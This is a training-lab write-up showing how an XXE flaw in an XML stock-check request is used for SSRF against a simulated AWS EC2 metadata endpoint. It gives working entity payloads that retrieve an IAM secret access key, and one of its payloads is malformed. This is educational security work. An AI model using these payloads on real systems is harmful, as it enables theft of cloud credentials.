





# Exploiting XXE to perform SSRF attacks

## Lab Description :


## Overview :
Exploiting XXE to perform SSRF attacks
Aside from retrieval of sensitive data, the other main impact of XXE attacks is that they can be used to perform server-side request forgery (SSRF). This is a potentially serious vulnerability in which the server-side application can be induced to make HTTP requests to any URL that the server can access.

To exploit an XXE vulnerability to perform an SSRF attack, you need to define an external XML entity using the URL that you want to target, and use the defined entity within a data value. If you can use the defined entity within a data value that is returned in the application's response, then you will be able to view the response from the URL within the application's response, and so gain two-way interaction with the back-end system. If not, then you will only be able to perform blind SSRF attacks (which can still have critical consequences).

In the following XXE example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization's infrastructure:

``<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>``

##Solution :
The lab server is running a (simulated) AWS EC2 metadata endpoint at the default URL, which is http://169.254.169.254/

Access the EC2 instance -
Clicking on checkstock , a request is sent as follows.
```HTML
POST /product/stock HTTP/1.1
Host: 0a6b0074032a636f8001716f00660002.web-security-academy.net
Cookie: session=IO1xzxtsKi3p7KPymgSicKBsVEpCG8sT
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a6b0074032a636f8001716f00660002.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a6b0074032a636f8001716f00660002.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

First we declare a DOCTYPE with an external entitiy which fetches the url http://169.254.169.254 from the backend system - ``<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/"> ]>``

Then we can try to refer the entitiy aws in between the <productID> tags to fetch the url & return the response of the application.



We can see that it returned latest which is the starting path where we can get the IAM secret access key.

http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME - Full path that returns the security credentials of that role.

We don't know what is the ROLE_NAME here. So lets first fetch http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
 <stockCheck>
  <productId>&aws;</productId>
  <storeId>1</storeId>
</stockCheck>
```



We now got to know that the ROLE_NAME is admin. Include admin in the uri & send the request again.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin
 <stockCheck>
  <productId>&aws;</productId>
  <storeId>1</storeId>
</stockCheck>
```


Now we got the secret access key from AWS EC2 - ``Dzwohf7utghOfHiha9CFLAxKD6LurMKh4QrzaBCE``

And the has been solved.



#### Visit The Next Page For The Next Level :)
